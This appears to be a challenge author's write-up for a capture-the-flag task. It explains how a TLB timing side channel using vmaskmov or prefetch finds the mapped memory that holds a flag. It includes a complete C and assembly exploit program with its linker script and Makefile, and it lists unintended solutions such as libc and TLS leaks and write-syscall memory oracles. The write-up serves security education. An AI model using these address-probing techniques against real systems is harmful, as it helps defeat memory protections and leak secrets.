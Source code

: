 
## Provided files
- chal.c
- chal
- Dockerfile

## Intended

The papers provided in the description implement two different attack that use the same premise.

On x64 processors, physical memory is mapped to virtual memory using a page table. The page table specifies how physical memory is mapped to virtual memory and stores the page permission bits and other information.

See more about paging [here](https://wiki.osdev.org/Paging#64-Bit_Paging).

When a virtual memory address is accessed, the processor must walk the page table in order to determine the physical address to access, which takes some time in order to perform. The processor employs a translation lookaside buffer (TLB) to aggressively cache recent virtual to physical memory mappings to reduce the performance impact of translating virtual to physical addresses. However one can perform a sidechannel attack against the TLB by accessing memory and timing how long it takes to access. A fast access indicates the address is cached in the TLB, and a slow access indicates the address is not cached in the TLB. The problem with this is that one cannot go around arbitrarily accessing every memory address, as you will eventually run into a SEGFAULT and die. You can setup a SIGSEGV handler to catch the crash, but that messes up the timings because control first hands over to the kernel and then the signal handler. Fortunately there are a few instructions that do not fault when accessing an address, and still generate a memory lookup and TLB access. These instructions are `vmaskmov` (first paper) and `prefetch` (second paper) family of instructions.

[vmaskmov](https://www.felixcloutier.com/x86/vmaskmov)

[prefetch](https://www.felixcloutier.com/x86/prefetchh)

The documentation for `vmaskmov` states that:

Faults occur only due to mask-bit required memory accesses that caused the faults. Faults will not occur due to referencing any memory location if the corresponding mask bit for that memory location is 0. For example, no faults will be detected if the mask bits are all zero.


Using this our attack looks like this:
```x86asm noheader
vpxor ymm0, ymm0, ymm0
vmaskmovps ymm0, ymm0, ymmword ptr [victim]
mfence
rdtsc
mov rcx, rax
vmaskmovps ymm0, ymm0, ymmword ptr [victim]
mfence
rdtsc
sub rax, rcx
```

1. setup zero mask in ymm0
2. access the victim address, which caches it in the tlb if it is valid
3. use fences to prevent speculative execution from messing with timings
4. time the access of vmaskmovps

Using this we can determine which memory addresses are readable and only access those addresses to look for the flag.

```c filename="main.c"
typedef unsigned long long u64;

void putchar (char ch) {
    asm volatile(
        ".intel_syntax noprefix\n"
        "mov eax, 1\n"
        "mov edi, 1\n"
        "mov rsi, %[buf]\n"
        "mov rdx, 1\n"
        "syscall\n"
        ".att_syntax prefix\n"
        :: [buf] "r" (&ch)
        : "rax", "rdi", "rsi", "rdx", "rcx", "r11"
    );
}

void puts (char * s) {
    while (*s != 0) {
        putchar(*s);
        s++;
    }
    putchar('\n');
}

void exit(int code) {
    asm volatile(
        "mov $60, %%eax\n"
        "syscall\n"
        :: [code] "rdi" (code)
    );
}

int probe(void * addr) {
    u64 tic_hi, tic_lo, toc_hi, toc_lo;
    asm volatile(
        ".intel_syntax noprefix\n"
        "vpxor ymm0, ymm0, ymm0\n"
        "vmaskmovps ymm0, ymm0, ymmword ptr [%[ptr]]\n"
        "mfence\n"
        "rdtsc\n"
        "mov %[hi], rdx\n"
        "mov %[lo], rax\n"
        "mfence\n"
        "vmaskmovps ymm0, ymm0, ymmword ptr [%[ptr]]\n"
        "mfence\n"
        "rdtsc\n"
        "mov %[thi], rdx\n"
        "mov %[tlo], rax\n"
        ".att_syntax prefix\n"
        : [hi] "=r" (tic_hi),
          [lo] "=r" (tic_lo),
          [thi] "=r" (toc_hi),
          [tlo] "=r" (toc_lo)
        : [ptr] "r" (addr)
        : "ymm0", "rdx", "rax"
    );
    return ((toc_hi << 32) + toc_lo) - ((tic_hi << 32) + tic_lo);
}

// we put the main function into the `.entry` section
// and use custom linker script in order to guarantee
// main is run first in the flat binary
void __attribute__((section(".entry"))) main () {
    u64 base = 0x1337000;

    while (base < 0x1337000 + 0x100000000) {
        int access = probe(base);
        if (access < 140) {
            puts("FOUND");
            puts((char *)base);
            putchar('\n');
        }
        base += 0x1000;
    }
}
```

```text filename="linker.ld"
ENTRY(main)

SECTIONS {
    /* here we place `.entry` as the first section */
    .entry  : { *(.entry) }
    /* . = .; forces the linker to keep ordering */
    . = .;
    .text   : { *(.text.*) }
    .rodata : { *(.rodata.*) }
    .data   : { *(.data.*) }
    .bss    : { *(.bss.*) }
}
```

```make filename="Makefile"
all:
	gcc \
	-o main \
	-nostdlib -nostartfiles -nostdinc \
	-fno-builtin -fno-stack-protector \
	-ffreestanding -pie \
	-Wl,--oformat=binary -Wl,-T,linker.ld \
	main.c
```

## Unintended

### Accidentally compiled with -no-pie
I copypasted my build script from another chal that used `-no-pie`, so the binary base was fixed and you could leak the libc to retrieve the stack address. Once you know where the stack is you could retrieve the flag address.

### Bruteforce
The `write` syscall does not complain about being fed invalid memory address, and simply returns an error. One person simply called write on every memory address starting from `0x1337000` at `0x1000` increments.

### `syscall` oracle
It is also possible to test whether or not an address is readable via the write syscall, can write on each address and inspect the return value. If the value indicates an error, unmapped address, otherwise should be readable.

### `%fs` register
The libc stores a pointer to thread local storage (TLS) in the fs register. The TLS section exists at a fixed offset from the libc, so accessing this register gives a libc leak, then you can walk the stack and get the flag. You can view the fs register in gdb with `p $fs_base`.

### Reading the urandom value
I stored the urandom value inside a mmapped chunk so that I could unmap it later and make it unaccessible. But I forgot to unmap it :skull:. You could retrieve the address through bruteforce or via the stack. Somebody submitted a ticket where they used a constant offset from the mmapped code to access the urandom value, but I could not reproduce on remote.